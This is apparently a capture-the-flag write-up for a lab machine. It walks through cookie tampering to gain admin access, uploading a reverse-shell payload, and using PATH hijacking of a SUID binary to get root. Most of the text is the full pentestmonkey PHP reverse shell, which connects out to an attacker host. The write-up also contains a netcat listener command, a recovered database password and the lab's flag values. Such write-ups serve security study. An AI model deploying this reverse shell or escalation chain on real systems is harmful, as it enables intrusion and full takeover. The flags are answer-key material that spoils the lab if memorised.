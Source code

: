 ## **Machine IP**
> 10.129.93.218
## **Inference**
1. Nmap scan shows port 80 open with `Apache httpd 2.4.29 ((Ubuntu))` running on it, that means a website is being hosted on the machie
2. Used BurpSuite to access the website `http://10.129.93.218` and found `http://10.129.93.218/cdn-cgi/login`
3. Signed in as guest 
4. Changed cookie **role**->*admin* and usl **10.129.93.218/cdn-cgi/login/admin.php?content=accounts&id=2**->*10.129.93.218/cdn-cgi/login/admin.php?content=accounts&id=1*.
5. Got access id as 34322 so change cookie **user**->*34322*
6. Eureka! Got admin access.
7. Go to uploads section and upload a php reverse shell payload.
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '{ATTACKER IP}';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 

```
8. Used gobuster `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.93.218` and found an upload directory at `http://10.129.93.218/uploads`
9. Ran a netcat listener at part 1234 `nc lvnp 1234`
10. Went to `http://10.129.93.218/uploads/php-reverse-shell.php`
11. Got a reverse shell
12. Went to `/var/www/html/cdn-cgi/login` and started lokin for an file with password and found one `db.php` with *password* `M3g4C0rpUs3r!`
13. Read `/etc/passwd` and found another user `Robert` and tried to change user to robert with `su robert`.
14. Entered the password recovered earlier and we are in.
15. Tried sudo with `sudo -l` but robert does not have sudo access.
16. Checked group of reobert with `id` and found robert to a part of the group bugtracker.
17. Lets find is there any binary within this group with `find / -group bugtracker 2>/dev/null` and found `/usr/bin/bugtracker`.
18. Checked previliges and type of file with `l -la /usr/bin/bugtracker && file /usr/bin/bugtracker` found it as a suid file with root previleges.
19. Changed directory to /tmp and create a file named `cat` with content `/bin/bash`.
20. Gave Execution previlege with `chmod +x cat`.
21. Exported path with `export PATH=/tmp:$PATH`.
22. Then executed bugtracker from `/tmp` file.
23. Entered random bug tracker id and got root bash shell.
24. Founf flag in `/root/flag.txt`

## **Result**
```
User Flag - f2c74ee8db7983851ab2a96a44eb7981
Root Flag - af13b0bee69f8a877c3faf667f7beacf
```
